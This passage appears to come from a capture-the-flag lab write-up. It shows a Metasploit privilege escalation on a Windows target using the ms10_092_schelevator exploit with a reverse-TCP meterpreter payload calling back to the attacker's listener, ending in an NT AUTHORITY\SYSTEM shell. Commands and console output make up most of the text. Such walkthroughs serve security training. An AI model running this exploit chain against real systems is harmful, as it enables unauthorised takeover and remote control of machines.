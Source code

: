 We found 4 possible vulnerability for gaining administrator.<br>
Try the first one "ms10_092_schelevator".
{% highlight shell %}
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_092_schelevator

msf5 exploit(windows/local/ms10_092_schelevator) > set payload windows/x64/meterpreter/reverse_tcppayload => windows/x64/meterpreter/reverse_tcp

msf5 exploit(windows/local/ms10_092_schelevator) > set lhost 10.10.14.30
lhost => 10.10.14.30

msf5 exploit(windows/local/ms10_092_schelevator) > set lport 8888
lport => 8888

msf5 exploit(windows/local/ms10_092_schelevator) > set session 1
session => 1

msf5 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.30:8888
[*] Preparing payload at C:\Windows\TEMP\YOfmskSrsb.exe
[*] Creating task: Yi4efMFsrEfh
[*] SUCCESS: The scheduled task "Yi4efMFsrEfh" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\Yi4efMFsrEfh...
[*] Original CRC32: 0x5eb2c56c
[*] Final CRC32: 0x5eb2c56c
[*] Writing our modified content back...
[*] Validating task: Yi4efMFsrEfh
[*]
[*] Folder: \
[*] TaskName                                 Next Run Time          Status
[*] ======================================== ====================== ===============
[*] Yi4efMFsrEfh                             10/1/2019 9:27:00 PM   Ready
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "Yi4efMFsrEfh" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "Yi4efMFsrEfh" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (206403 bytes) to 10.10.10.93
[*] SUCCESS: Attempted to run the scheduled task "Yi4efMFsrEfh".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.30:8888 -> 10.10.10.93:49165) at 2019-09-18 21:25:05 +0300
[*] SUCCESS: The scheduled task "Yi4efMFsrEfh" was successfully deleted.
[*] SCHELEVATOR

meterpreter >
{% endhighlight %}

Now we can confirm we had "AUTHORITY\SYSTEM".
{% highlight shell %}
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
{% endhighlight %}
